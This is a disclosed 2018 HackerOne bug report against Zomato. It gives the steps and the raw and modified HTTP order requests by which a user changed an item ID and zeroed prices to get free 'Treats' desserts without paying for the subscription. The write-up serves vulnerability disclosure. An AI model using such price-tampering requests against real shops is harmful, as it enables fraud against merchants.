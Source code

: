 # [www.zomato.com] Getting a complimentary dessert [Zomato Treats] on ordering a Meal at no cost

## Report Details
- **Report ID**: 321938
- **URL**: https://hackerone.com/reports/321938
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-03-05T04:54:29.802Z
- **Disclosed**: 2018-04-25T12:26:28.033Z

## Reporter
- **Username**: harsh13
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: zomato

## Vulnerability Information
1. Go to order food tab and select any restaurant that delivers online.
2. Add Zomato Treat Subscription to cart.
3. Add more items to cart to fulfil the minimum order requirement for that restaurant.
4. Click on Continue and proceed to pay online.
5. While paying online I faced the issue that "some items in your cart have been changed" and was unable to pay. If you face the same issue toggle between Card Payment and Netbanking 1-2 times and then pay via Netbanking.

The final api for order is:

POST https://www.zomato.com/php/o2_handler.php

Host: www.zomato.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:58.0) Gecko/20100101 Firefox/58.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.zomato.com/
content-type: application/x-www-form-urlencoded;charset=UTF-8
origin: https://www.zomato.com
Content-Length: 3277
Cookie:  YOUR COOKIES HERE
Connection: close

case=makeonlineorder&res_id=██████&order=███

total_cost%22%3A%22254.32%22%2C%22type%22%3A%22total%22%2C%22unit_cost%22%3A0%2C%22quantity%22%3A0%2C%22comment%22%3Anull%2C%22groups%22%3A%5B%5D%2C%22item_id%22%3A0%2C%22mrp_item%22%3A0%2C%22tax_inclusive%22%3A0%2C%22tags%22%3A%22%22%2C%22tax_id%22%3A0%2C%22id%22%3A0%2C%22

display_cost%22%3A%22%E2%82%B9254.32%22%7D%5D%2C%22dishes%22%3A%5B%7B%22type%22%3A%22dish%22%2C%22comment%22%3A%22%22%2C%22groups%22%3A%5B%5D%2C%22item_id%22%3A390080785%2C%22item_name%22%3A%22Poha%22%2C%22mrp_item%22%3A0%2C%22quantity%22%3A2%2C%22tags%22%3A%221%22%2C%22tax_inclusive%22%3A0%2C%22unit_cost%22%3A59%2C%22total_cost%22%3A118%2C%22is_bogo_active%22%3Afalse%2C%22bogoItemsCount%22%3A0%2C%22alwaysShowOnCheckout%22%3A0%2C%22duration_id%22%3A0%7D%2C%7B%22type%22%3A%22plan%22%2C%22comment%22%3A%22%22%2C%22groups%22%3A%5B%5D%2C%22

item_id%22%3A3%2C%22item_name%22%3A%22Zomato%20Treats%20Membership%22%2C%22mrp_item%22%3A1%2C%22quantity%22%3A1%2C%22tags%22%3A%221%22%2C%22tax_inclusive%22%3A0%2C%22unit_cost%22%3A149%2C%22total_cost%22%3A149%2C%22

is_bogo_active%22%3Afalse%2C%22bogoItemsCount%22%3A0%2C%22alwaysShowOnCheckout%22%3A1%2C%22duration_id%22%3A4%7D%2C%7B%22type%22%3A%22treat_dish%22%2C%22comment%22%3A%22%22%2C%22groups%22%3A%5B%5D%2C%22item_id%22%3A407847609%2C%22item_name%22%3A%22Banana%20Cake%20-%20Treats%22%2C%22mrp_item%22%3A0%2C%22quantity%22%3A1%2C%22tags%22%3A%2220%2C24%22%2C%22tax_inclusive%22%3A0%2C%22unit_cost%22%3A60%2C%22total_cost%22%3A60%2C%22is_bogo_active%22%3Afalse%2C%22bogoItemsCount%22%3A0%2C%22alwaysShowOnCheckout%22%3A1%2C%22duration_id%22%3A0%7D%5D%7D&address_id=██████&phone=█████&phone_country_id=1&name=Russel&special_instructions=&user_forced=0&verify_phone=0&payment_method_id=██████████&payment_method_type=netbanking&card_token=0&card_name=&card_bin=&card_vault=winecellar&recharge=0&recharge_amount=0&recharge_method_type=&additional_recharge=0&additional_recharge_amount=0&voucher_code=&wallet_type=self&dob=&csrfToken=db465772ce05763ac9082da5ec8cef1b&csrft_creation_time=1520220575093


6. The item id on the separate line is the id corresponding to Zomato Treats with a price of Rs.149. On trying more item_ids, I figured out that there are more order ids for Zomato Treats, and have a price of 0.

7. I changed the item_id to 18, the unit_cost to 0, and subtracted 149(Zomato Treats Cost) from the total cost. Initial total cost: 254, final total cost: 105.

8. So ,the new payload becomes:

case=makeonlineorder&res_id=█████&order=██████

###TOTAL COST CHANGED to 105
total_cost%22%3A%22105.32%22%2C%22type%22%3A%22total%22%2C%22unit_cost%22%3A0%2C%22quantity%22%3A0%2C%22comment%22%3Anull%2C%22groups%22%3A%5B%5D%2C%22item_id%22%3A0%2C%22mrp_item%22%3A0%2C%22tax_inclusive%22%3A0%2C%22tags%22%3A%22%22%2C%22tax_id%22%3A0%2C%22id%22%3A0%2C%22

display_cost%22%3A%22%E2%82%B9254.32%22%7D%5D%2C%22dishes%22%3A%5B%7B%22type%22%3A%22dish%22%2C%22comment%22%3A%22%22%2C%22groups%22%3A%5B%5D%2C%22item_id%22%3A390080785%2C%22item_name%22%3A%22Poha%22%2C%22mrp_item%22%3A0%2C%22quantity%22%3A2%2C%22tags%22%3A%221%22%2C%22tax_inclusive%22%3A0%2C%22unit_cost%22%3A59%2C%22total_cost%22%3A118%2C%22is_bogo_active%22%3Afalse%2C%22bogoItemsCount%22%3A0%2C%22alwaysShowOnCheckout%22%3A0%2C%22duration_id%22%3A0%7D%2C%7B%22type%22%3A%22plan%22%2C%22comment%22%3A%22%22%2C%22groups%22%3A%5B%5D%2C%22

### ITEM Id changed to 18 and total and unit cost changed to 0
item_id%22%3A18%2C%22item_name%22%3A%22Zomato%20Treats%20Membership%22%2C%22mrp_item%22%3A1%2C%22quantity%22%3A1%2C%22tags%22%3A%221%22%2C%22tax_inclusive%22%3A0%2C%22
unit_cost%22%3A0%2C%22total_cost%22%3A0%2C%22

is_bogo_active%22%3Afalse%2C%22bogoItemsCount%22%3A0%2C%22alwaysShowOnCheckout%22%3A1%2C%22duration_id%22%3A4%7D%2C%7B%22type%22%3A%22treat_dish%22%2C%22comment%22%3A%22%22%2C%22groups%22%3A%5B%5D%2C%22item_id%22%3A407847609%2C%22item_name%22%3A%22Banana%20Cake%20-%20Treats%22%2C%22mrp_item%22%3A0%2C%22quantity%22%3A1%2C%22tags%22%3A%2220%2C24%22%2C%22tax_inclusive%22%3A0%2C%22unit_cost%22%3A60%2C%22total_cost%22%3A60%2C%22is_bogo_active%22%3Afalse%2C%22bogoItemsCount%22%3A0%2C%22alwaysShowOnCheckout%22%3A1%2C%22duration_id%22%3A0%7D%5D%7D&address_id=█████████&phone=██████████&phone_country_id=1&name=Russel&special_instructions=&user_forced=0&verify_phone=0&payment_method_id=████&payment_method_type=netbanking&card_token=0&card_name=&card_bin=&card_vault=winecellar&recharge=0&recharge_amount=0&recharge_method_type=&additional_recharge=0&additional_recharge_amount=0&voucher_code=&wallet_type=self&dob=&csrfToken=db465772ce05763ac9082da5ec8cef1b&csrft_creation_time=1520220575093

9. Complete the transaction and your order will be placed.

10. PFA the screenshot of the order that shows free banana treats. 

11. Using this I was not subscribed to Zomato Treats Subscription, but still can get free treats.

## Impact

Anyone can order free treats from Zomato.

## Attachments
No attachments
